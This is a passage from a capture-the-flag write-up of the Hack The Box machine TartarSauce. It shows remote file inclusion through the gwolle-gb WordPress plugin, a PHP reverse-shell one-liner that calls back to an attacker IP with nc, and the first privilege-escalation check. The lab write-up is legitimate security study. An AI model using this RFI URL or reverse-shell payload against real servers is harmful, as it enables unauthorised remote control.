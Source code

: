 We have two plugins but we don’t know if they are vulnerable.

## Exploiting

Searching on **searchsploit** I found one **RFI** exploit for **gwolle-gb.**

![Untitled](/HTB/tartar-3.png)

That exploit takes advantage of improper sanitation of abspath **GET** parameter allowing us to access to a remote php file named **wp-load.php.** 

I changed a little bit the **URL** adding `/webservices/wp/`

```bash
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.9/
```

So I created a php one line reverse shell and changed his name to **wp-load.php.**

```php
<?php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4444 >/tmp/f")
?>
```

Once done I started a **python http server**, set a **nc** listener and send a request to the **RFI URL**.

```php
python3 -m http.server 80
```

```php
nc -lv 4444
```

## Gaining an Initial Foothold

![Untitled](/HTB/tartar-4.png)

We are **www-data** now.

Navigating to the home’s directory we can see one folder called **onuma**.

When I tried to access in order to cat the user’s flag I receive the following error.

![Untitled](/HTB/tartar-7.png)

This is a sign that we need to **privEsc**.

## Escalating Privilege

First I checked for `sudo -l` privileges.

```bash
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```
